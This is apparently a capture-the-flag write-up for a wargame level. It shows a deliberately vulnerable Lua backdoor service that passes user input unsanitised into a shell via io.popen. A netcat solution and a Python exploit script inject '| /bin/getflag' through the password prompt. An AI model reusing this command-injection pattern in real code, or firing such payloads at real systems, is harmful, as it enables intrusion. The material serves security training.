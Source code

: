 # Level12

#### About

There is a backdoor process listening on port 50001. 
To do this level, log in as the level12 account with the password level12. Files for this level can be found in /home/flag12. 


#### Source Code

```
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password) 
	prog = io.popen("echo "..password.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()

	data = string.sub(data, 1, 40)

	return data
end


while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local line, err = client:receive()
	if not err then
		print("trying " .. line) -- log from where ;\
		local h = hash(line)

		if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
			client:send("Better luck next time\n");
		else
			client:send("Congrats, your token is 413**CARRIER LOST**\n")
		end

	end

	client:close()
end
```


#### Solutions

```
nc -v 127.0.0.1 50001
test | /bin/getflag | tee /tmp/level12.txt
cat /tmp/level12.txt
```

#### Exploits

```
#!/usr/bin/env python

import socket

def exploit(host, port):
    tmpfile = "/tmp/7845.yxha"
    payload = "xxx | /bin/getflag > %s \n" % tmpfile
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_IP)

    addr = (host, port)
    c.connect(addr)

    data = c.recv(1024)

    if 'Password' in data:
        print "[+] exploit %s\n%s" % (addr, payload)
        c.sendall(payload)
        # data = c.recv(1024)
        
        # print data

    c.close()


def main():
    exploit('127.0.0.1', 50001)

if __name__ == "__main__":
    main()
```
